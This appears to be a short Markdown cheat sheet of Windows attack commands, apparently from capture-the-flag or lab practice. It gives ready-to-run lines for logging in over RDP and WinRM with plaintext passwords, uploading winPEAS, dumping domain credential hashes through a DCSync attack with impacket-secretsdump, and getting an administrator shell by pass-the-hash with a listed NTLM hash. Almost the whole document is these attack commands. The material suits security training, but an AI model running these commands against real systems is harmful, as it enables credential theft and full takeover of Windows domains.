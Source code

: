 # Windows Commands

Used to gain access through RDS.
```
xfreerdp /v:10.10.29.125 /u:thm-unpriv /p:Password321 +clipboard
```

#### Evil-WinRm

connect to system with eveil-winrm
```
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```
command to upload files through win-rm
```
upload ~/windows_programs/winPEASany.exe
```

#### DCSync Attack
```
impacket-secretsdump egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```

#### Pass-the-Hash attack
```
impacket-psexec egotistical-bank.local/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```
